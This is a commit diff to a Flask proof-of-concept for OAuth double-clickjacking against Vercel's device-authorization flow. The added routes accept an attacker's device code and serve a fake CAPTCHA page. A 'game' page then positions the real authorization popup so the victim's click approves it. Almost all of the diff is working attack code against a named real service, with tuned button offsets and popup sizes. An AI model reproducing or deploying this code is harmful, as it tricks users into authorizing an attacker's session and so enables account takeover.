

Before and after one commit to 2lucas/oauth-doubleclickjacking-poc, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (152-1127 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
feat: mandatory /XXXX-XXXX route for dynamic device codes

```diff
--- a/main.py
+++ b/main.py
@@ -8,9 +8,6 @@
 # Configuration — edit these for your target
 # ---------------------------------------------------------------------------
 
-# Target OAuth device-authorization URL — edit this for your target
-TARGET_URL = "https://vercel.com/oauth/device?user_code=DRMH-DHSK"
-
 POPUP_SIZE = [561, 560]                        # [width, height] of the popup
 BUTTON_OFFSET = {"pos": [224, 432], "size": [81, 48]}  # button position & size
 USE_HISTORY_BACK = False                      # False = reload URL; True = history.back()
@@ -20,23 +17,49 @@
 app = Flask(__name__)
 app.secret_key = os.urandom(24)
 
-# BUTTON_OFFSET is hard-coded above, so the saved-target fallback is skipped.
-# If you prefer to use a CSS selector + saved HTML, set BUTTON_OFFSET = None
-# and provide BUTTON_SELECTOR + saved-target files under static/saved-target/.
 button = BUTTON_OFFSET
+
+DEVICE_URL = "https://vercel.com/oauth/device?user_code={code}"
 
 
 @app.route("/")
-def index():
+def index_root():
+    """Fallback: redirect to a default code or show instructions."""
     domain = request.host.split(":")[0]
-    return render_template("index.html", domain=domain)
+    return render_template("index.html", domain=domain,
+                           target_url="", code="")
+
+
+@app.route("/<code>")
+def index_with_code(code):
+    """Dynamic route: /XXXX-XXXX → uses that device code."""
+    domain = request.host.split(":")[0]
+    target_url = DEVICE_URL.format(code=code)
+    return render_template("index.html", domain=domain,
+                           target_url=target_url, code=code)
+
+
+@app.route("/game/<code>")
+def game_with_code(code):
+    """Game page for a specific device code."""
+    target_url = DEVICE_URL.format(code=code)
+    return render_template(
+        "game.html",
+        url=target_url,
+        code=code,
+        button=button,
+        popup_size=POPUP_SIZE,
+        use_history_back=USE_HISTORY_BACK,
+    )
 
 
 @app.route("/game")
-def game():
+def game_fallback():
+    """Fallback game page (no code)."""
     return render_template(
         "game.html",
-        url=TARGET_URL,
+        url="",
+        code="",
         button=button,
         popup_size=POPUP_SIZE,
         use_history_back=USE_HISTORY_BACK,
@@ -45,7 +68,7 @@
 
 @app.route("/clear")
 def clear():
-    return redirect(url_for("index"))
+    return redirect(url_for("index_root"))
 
 
 if __name__ == "__main__":
--- a/templates/game.html
+++ b/templates/game.html
@@ -17,6 +17,8 @@
     const BUTTON = {{ button|tojson }};
     const POPUP_SIZE = {{ popup_size|tojson }};
     const USE_HISTORY_BACK = {{ use_history_back|tojson }};
+    const CODE = {{ code|tojson }};
+    const NEXT = CODE ? "/" + CODE : "/";
 
     let button, popupPos, navbarHeight;
     let paused = true;
@@ -38,7 +40,7 @@
         // restart whole flow if popup is closed or lost
         if (!done) { console.log("Popup closed before trigger, restarting"); }
         else        { console.log("Popup closed after trigger, restarting"); }
-        location = "/";
+        location = NEXT;
         clearInterval(checkStillOpen);
       }
     }, 100);
--- a/templates/index.html
+++ b/templates/index.html
@@ -64,6 +64,32 @@
     </style>
   </head>
   <body class="no-js">
+    {% if not code %}
+    <!-- No code provided — show input form -->
+    <style>
+      .code-form { display: flex; flex-direction: column; align-items: center; justify-content: center; height: 100vh; gap: 16px; font-family: monospace; background: #0f0f23; color: #e0e0e0; }
+      .code-form input { width: 320px; padding: 12px; font-size: 18px; text-align: center; font-family: monospace; letter-spacing: 2px; background: #1a1a2e; color: #0f0; border: 2px solid #333; border-radius: 6px; text-transform: uppercase; }
+      .code-form input::placeholder { color: #555; letter-spacing: 1px; }
+      .code-form button { padding: 10px 32px; font-size: 14px; background: #ff5582; color: #fff; border: none; border-radius: 6px; cursor: pointer; font-weight: bold; }
+      .code-form .hint { color: #666; font-size: 12px; }
+    </style>
+    <div class="code-form">
+      <h2 style="font-weight:400">Device Code</h2>
+      <input type="text" id="codeInput" placeholder="XXXX-XXXX" maxlength="9" autofocus>
+      <button onclick="go()">Start</button>
+      <span class="hint">Paste your Vercel CLI device code</span>
+    </div>
+    <script>
+      function go() {
+        var c = document.getElementById("codeInput").value.trim().toUpperCase();
+        if (c) location = "/" + c;
+      }
+      document.getElementById("codeInput").addEventListener("keydown", function(e) {
+        if (e.key === "Enter") go();
+      });
+    </script>
+    {% else %}
+    <!-- Code provided — show fake CAPTCHA -->
     <div class="main-wrapper" role="main">
       <div class="main-content">
         <h1 class="zone-name-title h1">{{ domain }}</h1>
@@ -132,10 +158,11 @@
           spinner.style.visibility = "visible";
           message.classList.remove("spacer-top");
           setTimeout(() => {
-            location = "/game";
+            location = "/game/{{ code }}";
           }, 250);
         }, 500);
       };
     };
   </script>
+{% endif %}
 </html>
```
